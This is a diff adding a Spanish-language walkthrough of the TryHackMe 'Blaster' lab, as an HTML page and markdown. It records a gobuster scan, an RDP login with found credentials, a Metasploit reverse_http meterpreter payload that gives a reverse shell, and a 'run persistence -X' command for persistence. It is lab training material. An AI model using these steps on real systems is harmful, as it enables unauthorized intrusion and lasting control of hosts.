

Add Blaster

Changed region(s): [[0.0, 0.0, 0.9446, 0.9902]]

diff --git a/THM/3. Blaster/blaster.html b/THM/3. Blaster/blaster.html
@@ -1,0 +1,80 @@
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Blaster Report</title>
+    <style>
+        body {
+            font-family: Arial, sans-serif;
+            line-height: 1.6;
+            margin: 20px;
+        }
+
+        h1 {
+            color: #0047ab;
+        }
+
+        h2 {
+            color: #0081ab;
+        }
+
+        code {
+            background-color: #f4f4f4;
+            padding: 2px 6px;
+            border-radius: 3px;
+        }
+
+        img {
+            max-width: 100%;
+            height: auto;
+            margin-bottom: 10px;
+        }
+
+        pre {
+            background-color: #f4f4f4;
+            padding: 10px;
+            border-radius: 5px;
+            overflow-x: auto;
+        }
+
+    </style>
+</head>
+<body>
+    <div style="margin-left: 20%; margin-right: 20%;">
+        <h1># Blaster</h1>
+
+        <h2>Nmap</h2>
+        <img src="image.png" alt="alt text">
+        <img src="image-1.png" alt="alt text">
+
+        <h2>Fuzzing</h2>
+        <pre><code>gobuster dir -u http://10.10.131.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x php</code></pre>
+        <img src="image-4.png" alt="alt text">
+        <img src="image-2.png" alt="alt text">
+        <img src="image-3.png" alt="alt text">
+
+        <h2>MSRDP</h2>
+        <p>Nos conectamos al Escritorio remoto</p>
+        <pre><code>xfreerdp /u:wade /p:parzival /v:10.10.131.79</code></pre>
+        <img src="image-5.png" alt="alt text">
+        <p>En el historial podemos ver el CVE</p>
+        <p>En este video veremos el CVE en funcionamiento: <a href="https://www.youtube.com/watch?v=3BQKpPNlTSo">https://www.youtube.com/watch?v=3BQKpPNlTSo</a></p>
+        <img src="image-6.png" alt="alt text">
+        <img src="image-7.png" alt="alt text">
+        <img src="image-8.png" alt="alt text">
+
+        <h2>Metasploit</h2>
+        <img src="image-9.png" alt="alt text">
+        <img src="image-10.png" alt="alt text">
+        <p>Colocamos el LHOST</p>
+        <p>Colocamos el payload</p>
+        <pre><code>set payload windows/meterpreter/reverse_http</code></pre>
+        <p>Ejecutamos la sesion como job</p>
+        <img src="image-11.png" alt="alt text">
+        <p>Copiamos el código en la consola de la máquina con acceso remoto, ya tendremos una shell meterpreter activa</p>
+        <p>Ejecutando el siguiente comando, conseguiremos persistencia en la máquina cuando el sistema se ejecuta</p>
+        <pre><code>run persistence -X</code></pre>
+    </div>
+</body>
+</html>

diff --git a/THM/3. Blaster/writeup.md b/THM/3. Blaster/writeup.md
@@ -5,3 +5,52 @@
 ![alt text](image.png)
 ![alt text](image-1.png)
 
+## Fuzzing
+
+    gobuster dir -u http://10.10.131.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x php 
+
+![alt text](image-4.png)
+
+![alt text](image-2.png)
+
+![alt text](image-3.png)
+
+## MSRDP
+
+Nos conectamos al Escritorio remoto
+
+    xfreerdp /u:wade /p:parzival /v:10.10.131.79
+
+![alt text](image-5.png)
+
+En el historial podemos ver el CVE
+
+En este video veremos el CVE en funcionamiento: https://www.youtube.com/watch?v=3BQKpPNlTSo
+
+![alt text](image-6.png)
+
+![alt text](image-7.png)
+
+![alt text](image-8.png)
+
+## Metasploit
+
+![alt text](image-9.png)
+
+![alt text](image-10.png)
+
+Colocamos el LHOST
+
+Colocamos el payload
+
+    set payload windows/meterpreter/reverse_http
+
+Ejecutamos la sesion como job
+
+![alt text](image-11.png)
+
+Copiamos el código en la consola de la máquina con acceso remoto, ya tendremos una shell meterpreter activa
+
+Ejecutando el siguiente comando, conseguiremos persistencia en la máquina cuando el sistema se ejecuta
+
+    run persistence -X
